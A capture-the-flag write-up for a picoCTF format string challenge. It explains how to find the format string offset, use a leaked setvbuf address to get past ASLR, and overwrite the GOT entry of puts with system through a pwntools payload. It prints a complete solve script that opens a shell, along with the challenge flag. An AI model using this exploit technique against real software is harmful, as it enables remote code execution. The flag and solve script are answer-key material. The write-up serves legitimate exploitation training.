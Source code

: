 ```yaml
---
ai_date: '2025-04-27 05:29:22'
ai_summary: Format string attack exploited to leak and overwrite GOT entry for `puts`
  to execute `system` after address leak.
ai_tags:
- fmt-str
- got
- rop
- aslr
created: 2024-08-07T22:13
updated: 2024-08-07T23:55
---
```


Format string attack modifying GOT to run custom function after memory address leak.
## Idea

We need to overwrite `puts` to `popen` in memory with writes.
So `puts('/bin/sh')` becomes `system('/bin/sh')`.
## Offset

We can find the location of our format string in memory using `%n$p`.
When the server replies `69ABCDEF` in little endian, `n` is the offset.

Automatic offset finding via pwntools.

```python
from pwn import *

elf = context.binary = ELF('./format-string-3')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info("offset = %d", offset)
```

## Addresses

In `libc.so.6` we can find the functions related to the challenge.

```python [libc]
0x000000000004F760: system
0x0000000000079BF0: puts
0x000000000007A3F0: setvbuf
```

We have the address of `system` right? Nay, due to **ASLR** we have to do address leak first.
Luckily the author already does that for us.

```python
p = process(program)
# p = remote('rhea.picoctf.net', 50248)
p.recvuntil(b': 0x')
setvbuf_leak = int(p.recvuntil(b'\n', drop=True).decode(), 16)
libc = ELF("./libc.so")
libc.address = setvbuf_leak - libc.symbols['setvbuf']  # normalizing libc base address
sys_addr = libc.symbols['system']
```

We now have the address of `system` in memory.
## Format String Attack

By sending `%p` we can see that `puts` is right next to us in stack.

```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f48f9aaa3f0
AAAAAAAA%p
AAAAAAAA0x7f48f9c08963
```

How do we change it?

ELFs store symbol-address map in GOT (Global Offset Table).

We can modify the GOT entry of `puts` like this.

```python
sys_addr = libc.symbols['system']
puts_addr = elf.got['puts']
writes = {puts_addr: sys_addr}

payload = fmtstr_payload(offset, writes)
p.sendline(payload)
```

And that's it, we have shell access.

```flag
picoCTF{G07_G07?_7a2369d3}
```

## Solve Script

```python
from pwn import *

elf = context.binary = ELF('./format-string-3')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info("offset = %d", offset)

p = elf.process()
# p = remote('rhea.picoctf.net', 50248)

p.recvuntil(b': 0x')
setvbuf_leak = int(p.recvuntil(b'\n', drop=True).decode(), 16)

libc = ELF("./libc.so.6")
libc.address = setvbuf_leak - libc.symbols['setvbuf']  # normalizing libc base address

sys_addr = libc.symbols['system']
puts_addr = elf.got['puts']
writes = {puts_addr: sys_addr}

payload = fmtstr_payload(offset, writes)
p.sendline(payload)
p.interactive()
```
